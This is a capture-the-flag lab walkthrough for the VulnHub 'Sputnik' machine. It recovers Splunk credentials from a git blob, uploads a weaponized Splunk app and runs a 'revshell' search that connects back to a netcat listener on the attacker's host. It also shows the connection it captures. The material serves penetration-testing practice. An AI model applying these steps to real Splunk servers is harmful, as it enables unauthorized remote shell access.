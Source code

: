 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

commit 07fda135aae22fa7869b3de9e450ff7cacfbc717
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 20:27:01 2019 +0800

    Commit new file

commit 2541266769d9ea409ad2e84fce3dd0267ed89a04
Author: Ameer Pornillos <44928938+ameerpornillos@users.noreply.github.com>
Date:   Fri Mar 29 20:05:22 2019 +0800


root@setrus:~/Public/flappy$ git ls-tree 07fda135aae22fa7869b3de9e450ff7cacfbc717
100644 blob bdb0cabc87cf50106df6e15097dff816c8c3eb34	.gitattributes
100644 blob cd2946ad76b4402e5b3cab9243a9281aad228670	.gitignore
100644 blob 8f260dadbe40cdc656eb43c0c24401bdd4255bd0	README.md
100644 blob b7c6a79fd534ed19ab1708ac7a754ca1db28b951	index.html
100644 blob f4385198ce1cab56e0b2a1c55e8863040045b085	secret
100644 blob df45033222b87c64965dce38263e6d5948fb5ec1	sheet.png
100644 blob ad295422122860df7d9a4ef0c74de1e6deb67050	sprite.js
root@setrus:~/Public/flappy$ git show f4385198ce1cab56e0b2a1c55e8863040045b085
sputnik:ameer_says_thank_you_and_good_job
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Going to Splunk on http://192.168.56.108:61137 and loggin in with sputnik:ameer_says_thank_you_and_good_job
A version of splunk enterprise in installed

Exploitation of splunk

Get https://github.com/TBGSecurity/splunk_shells 

Go to Apps >  Manage Apps
Install App from file. 
Upload the zip file and restart Splunk.
![Alt Tag](https://raw.github.com/setrus/VulnHub/blob/master/Sputnik/sput1.png)

Select  
Weaponize Splunk for Pentesting and Red Teaming                                                        

Set Permissions :  All Apps
![Alt Tag](https://raw.github.com/setrus/VulnHub/blob/master/Sputnik/sput2.png)
![Alt Tag](https://raw.github.com/setrus/VulnHub/blob/master/Sputnik/sput3.png)


Start listener on Kali machine : nc -nvlp 1234
Running exploit
Going to search , we enter :     | revshell stf 192.168.56.102 1234
![Alt Tag](https://raw.github.com/setrus/VulnHub/blob/master/Sputnik/sput4.png)
We receive a connection back from the splunk server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.108] 54196

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
